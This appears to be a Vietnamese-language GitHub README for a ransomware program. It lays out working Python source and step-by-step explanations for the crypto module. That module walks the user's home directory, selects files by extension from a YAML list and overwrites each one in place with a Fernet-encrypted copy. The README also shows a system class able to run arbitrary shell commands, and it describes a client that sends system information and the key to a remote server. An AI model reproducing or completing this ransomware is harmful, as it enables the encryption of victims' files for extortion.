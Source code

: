 # RANSOMWARE
Chương trình ransomware, một loại phần mềm độc hại thường sử dụng để mã hóa các tệp trên máy tính của người dùng và yêu cầu một khoản tiền chuộc để giải mã chúng.

## MODULES
**1.CRYPTO**
```python
def Process_Files(Private: Fernet, mode: str):
    for _, files in List_Files().items():
        for file in files:
            temp_file = file + '.temp'
            try:
                with open(file, 'rb') as original_file, open(temp_file, 'wb', buffering=4096*1024) as temp_file:
                    with mmap.mmap(original_file.fileno(), 0, access=mmap.ACCESS_READ) as mm:
                        offset = 0
                        while offset < len(mm):
                            chunk = mm[offset:offset + 4096 * 1024]
                            if not chunk:
                                break
                            processed_chunk = Private.encrypt(chunk) if mode == 'encrypt' else Private.decrypt(chunk)
                            temp_file.write(processed_chunk)
                            offset += len(chunk)
                shutil.move(temp_file.name, file)
            except Exception as e: pass
            finally:
                if os.path.exists(temp_file.name):
                    os.remove(temp_file.name)
```
1. Hàm *Process_Files* nhận vào hai tham số: *Private*, một đối tượng *Fernet* được sử dụng để mã hóa và giải mã, và *mode*, một chuỗi chỉ định chế độ hoạt động (‘encrypt’ hoặc ‘decrypt’).

2. Hàm này sẽ duyệt qua tất cả các tệp tin được trả về bởi hàm *List_Files*.

3. Đối với mỗi tệp, nó tạo một tệp tạm thời với tên là tên tệp gốc kèm theo ‘*.temp*’.

4. Nó mở tệp gốc để đọc và tệp tạm thời để ghi, với kích thước bộ đệm là 4096*1024 byte. Sử dụng mmap để ánh xạ tệp gốc vào bộ nhớ. 
Sau đó đọc và xử lý từng ‘*chunk*’ của tệp gốc, với kích thước ‘*chunk*’ là 4096*1024 byte.

5. Mỗi ‘*chunk*’ sau đó được mã hóa (nếu mode là ‘*encrypt*’) hoặc giải mã (nếu mode là ‘*decrypt*’) bằng cách sử dụng đối tượng Fernet, và sau đó được ghi vào tệp tạm thời.

6. Khi tất cả các ‘*chunk*’ đã được xử lý, tệp tạm thời được đổi tên thành tên của tệp gốc, thay thế tệp gốc. Nếu có lỗi xảy ra trong quá trình này, hàm sẽ bỏ qua lỗi và tiếp tục với tệp tiếp theo. Cuối cùng, nếu tệp tạm thời vẫn tồn tại nó sẽ được xóa.
```python
def List_Files() -> dict:
    with open('scripts/extensions.yaml', 'r') as file:
        exts = Safe_Load(file)

    file_categories = {category: [] for category in exts}
    extcategory = {ext: category for category, ext_list in exts.items() for ext in ext_list}

    for entry in Path.home().rglob('*'):
        if entry.is_file() and (ext := entry.suffix.lower()) in extcategory:
            file_categories[extcategory[ext]].append(str(entry))

    return file_categories
```
1. Hàm mở tệp ‘*scripts/extensions.yaml*’ để đọc và sử dụng hàm *Safe_Load(file)* để phân tích dữ liệu *YAML* từ tệp này. Kết quả được lưu vào biến *exts*.

2. Tạo một từ điển *file_categories* với các khóa là các danh mục từ *exts* và giá trị là các danh sách trống. Tạo một từ điển *extcategory* mà mỗi phần mở rộng tệp trong *exts* là một khóa và giá trị tương ứng là danh mục của phần mở rộng đó.

3. Sau đó duyệt qua tất cả các tệp trong thư mục chính của người dùng. Nếu một mục là tệp và phần mở rộng của nó (được chuyển thành chữ thường) có trong *extcategory*, tệp đó sẽ được thêm vào danh mục tương ứng trong *file_categories*.

**2.SYSTEM**
```python
class System:
    def __init__(self) -> None:
        self.Windows = _os_name == 'nt'
 
    def Init(self) -> None:
        _system('')

    def Clear(self) -> None:
        return _system("cls" if self.Windows else "clear")

    def Title(self, title: str):
        if self.Windows:
            return _system(f"title {title}")

    def Size(self, x: int, y: int) -> None:
        if self.Windows:
            return _system(f"mode {x}, {y}")
    
    def Reset(self) -> None:
        execv(executable, [executable] + argv) 
    
    def Mac(self) -> str:
        try:
            address_mac = [
                address.address 
                for addresses in net_if_addrs().values() 
                for address in addresses 
                if address.family == AF_LINK
            ]
            return '|'.join(address_mac) if address_mac else 'nm'  
        except:
            return 'nm'
    
    def Command(command: str):
        return _system(command)
```
    1 variable:
        Windows    |      cho biết người dùng đang sử dụng hệ điều hành Windows hay không
    7 functions:
        Init()     |      khởi tạo terminal để cho phép sử dụng màu sắc
        Clear()    |      xóa terminal
        Title()    |      đặt tiêu đề của terminal, chỉ dành cho Windows
        Size()     |      đặt kích thước của terminal, chỉ dành cho Windows
        Reset()    |      khởi động lại chương trình hiện tại
        Mac()      |      địa chỉ MAC của máy tính
        Command()  |      thực thi một lệnh shell trên hệ thống máy tính
```python
def Console(ip: str, msg: str, color: str) -> None:
    color_code = getattr(Col, color)
    message = f" [{Col.Green}{ip}{Col.White}] --> {color_code}{msg}{Col.White}."
    print(message)
```
1. Hàm getattr được sử dụng để lấy giá trị thuộc tính color từ đối tượng Col.

2. Tạo một chuỗi được định dạng

3. In ra chuỗi đã được định dạng

## SERVER - CLIENT

**Server**: Máy chủ chấp nhận kết nối từ máy khách và xử lý dữ liệu đến. Sử dụng luồng để xử lý nhiều kết nối máy khách cùng một lúc.

**Client**: kết nối thành công, gửi thông tin hệ thống và khóa đến máy chủ. Nếu không kết nối được sau 3 lần thử lại, thực hiện khởi động lại chương trình.

